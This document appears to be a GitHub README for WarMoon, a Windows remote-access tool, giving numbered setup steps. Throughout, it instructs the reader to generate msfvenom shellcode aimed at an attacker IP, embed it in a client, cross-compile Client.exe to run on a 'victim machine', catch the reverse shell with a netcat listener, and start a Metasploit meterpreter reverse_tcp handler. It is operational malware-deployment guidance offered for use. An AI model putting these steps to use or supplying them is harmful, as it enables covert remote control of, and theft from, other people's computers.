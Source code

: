 # Setup

1. Install mingw-w64
```bash
sudo apt install mingw-w64
```
2. Clone the repository:
```bash
git clone https://github.com/IvanT7D3/WarMoon
```
3. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine
4. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Line 49) (Replace the LHOST variable with the IP address of the attacker machine)
5. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Lines 51 and 53) (Replace the LHOST variables like before)
6. Copy the output shellcodes of msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste them inside of ESH.c for the respective variables
7. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```
8. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.
9. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.
10. You should now be good to go, compile everything by typing:
```bash
x86_64-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```
11. If everything went correctly, the string "Compilation Successful" should popup on your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.
12. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```
If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

13. msfconsole commands for Inject64:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/x64/meterpreter/reverse_tcp
run
```
14. Everything should now be ready. Enjoy :)
